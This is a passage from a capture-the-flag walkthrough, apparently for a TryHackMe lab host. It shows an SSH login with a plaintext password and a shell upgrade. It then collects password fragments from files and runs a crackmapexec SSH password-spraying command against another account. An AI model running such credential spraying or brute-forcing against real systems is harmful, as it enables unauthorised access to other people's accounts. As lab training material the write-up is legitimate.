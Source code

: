 `ssh -o MACs=hmac-sha2-256 sam-sprinkles@cherryontop.thm -p 22`

```bash
sam-sprinkles@cherryontop.thm's password: SammyInMiami43

Last login: Fri Jan  5 23:31:43 2024 from 10.0.2.15
$ whoami
sam-sprinkles
$ id
uid=1002(sam-sprinkles) gid=1002(sam-sprinkles) groups=1002(sam-sprinkles)
$ pwd
/home/sam-sprinkles
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
sam-sprinkles@nanocherryctf:~$ export TERM=xterm
sam-sprinkles@nanocherryctf:~$ ls
 chads-key2.txt  'whyChadWhy??.txt'
 
sam-sprinkles@nanocherryctf:~$ cat chads-key2.txt
w1llb3
sam-sprinkles@nanocherryctf:~$ cat 'whyChadWhy??.txt'
Dude Chad! I thought we were bros!

I don't know if you'll ever read this, but ever since Molly joined the company, you've changed!

We had such a bromance going on and now you're letting her dig her nails into you!

I know you said you're not that into her, but I see how you tool look at eachother! It was always get paid before milk maids!

But I guess you've fallen for a milk maid now! I'm worried about you man...

Either way, I'll keep your secret password segment nice and hidden.

I hope we can hangout again soon.

Your friend,

Sam
sam-sprinkles@nanocherryctf:~$ 
```

> **Password Brute Force for Other User**
> 

`nano found_passwords.txt`

```bash
n4n0ch3rry
w1llb3
7h3fu7ur3
n4n0ch3rryw1llb37h3fu7ur3
```

`crackmapexec ssh cherryontop.thm -u 'chad-cherry' -p found_passwords.txt --port 22 -x 'whoami'`
